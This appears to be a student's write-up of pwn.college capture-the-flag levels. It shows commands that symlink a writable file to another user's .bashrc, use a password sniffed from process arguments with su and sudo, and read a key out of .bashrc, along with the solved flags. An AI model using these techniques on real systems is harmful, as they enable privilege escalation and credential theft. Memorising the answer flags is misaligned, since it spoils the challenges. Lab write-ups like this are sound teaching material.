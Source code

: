 You know the file to link to. Pull off the attack, and get /flag (which, for this level, Zardus can read again!).
#### Solving :
It was mentioned we have to run /challenge/victim twice so i figured we have to write cat /flag in .bashrc and then on running it the second time we get the flag .So i created a symbolic link from .txt file which has write access to .bashrc 
```
rm /tmp/collab/evil-commands.txt
ln -s /home/zardus/.bashrc /tmp/collab/evil-commands.txt
```
![alt text](image-3.png)
>Flag :pwn.college{U5V11WVXX-D_f6aNXBnZcbfvXvN.0VM0EzNxwyNwcTNxEzW}
### 1.3.5 : Sniffing process arguments

#### Solving :
![alt text](image-4.png)
```
cd /challenge
su zardus
pw_77013684
sudo cat /flag
```
>Flag :pwn.college{YAuF9tfSxg-PvaE5WxjL5KaaV-v.0FOzEzNxwyNwcTNxEzW}
### 1.3.6 : Snooping on configuration
Naturally, Zardus stores his key in .bashrc. Can you steal the key and get the flag?
#### Solving :
```
cd /home/zardus
cat .bashrc
flag_getter --key sk-1420626432
```
>Flag :pwn.college{QStfOH926zSDHknzTwgRqJfJmTz.0lM0EzNxwyNwcTNxEzW}
